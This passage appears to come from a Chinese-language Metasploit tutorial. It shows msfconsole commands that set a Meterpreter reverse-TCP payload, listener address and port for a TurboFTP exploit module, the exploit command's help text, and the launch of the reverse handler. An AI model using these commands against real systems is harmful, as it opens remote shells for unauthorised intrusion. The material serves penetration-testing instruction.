 ```
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.248.148  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

要配置有效负载，请使用 `set` 命令。

```
msf6 exploit(windows/ftp/turboftp_port) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/ftp/turboftp_port) > set LHOST 192.168.11.4
LHOST => 192.168.11.4
msf6 exploit(windows/ftp/turboftp_port) > set LPORT 1234
LPORT => 1234
```

配置好漏洞利用和有效载荷后，您就可以发起攻击了！

## Running an Exploit（运行漏洞利用）
启动exploit 只需在命令行上发出`exploit` 命令即可。

```
msf6 exploit(windows/ftp/turboftp_port) > exploit -h
Usage: run [options] [RHOSTS]

Run the current exploit module

OPTIONS:

    -e, --encoder <encoder>          The payload encoder to use.  If none is specified, ENCODER is used.
    -f, --force-run                  Force the exploit to run regardless of the value of MinimumRank.
    -h, --help                       Help banner.
    -J, --foreground                 Force running in the foreground, even if passive.
    -j, --job                        Run in the context of a job.
    -n, --nop-generator <generator>  The NOP generator to use.  If none is specified, NOP is used.
    -o, --options <options>          A comma separated list of options in VAR=VAL format.
    -p, --payload <payload>          The payload to use.  If none is specified, PAYLOAD is used.
    -q, --quiet                      Run the module in quiet mode with no output
    -t, --target <target>            The target index to use.  If none is specified, TARGET is used.
    -z, --no-interact                Do not interact with the session after successful exploitation.

Examples:

    run 192.168.1.123
    run 192.168.1.1-192.168.1.254
    run file:///tmp/rhost_list.txt

Learn more at https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit

msf6 exploit(windows/ftp/turboftp_port) > exploit

[*] Started reverse TCP handler on 0.0.0.0:1234 
```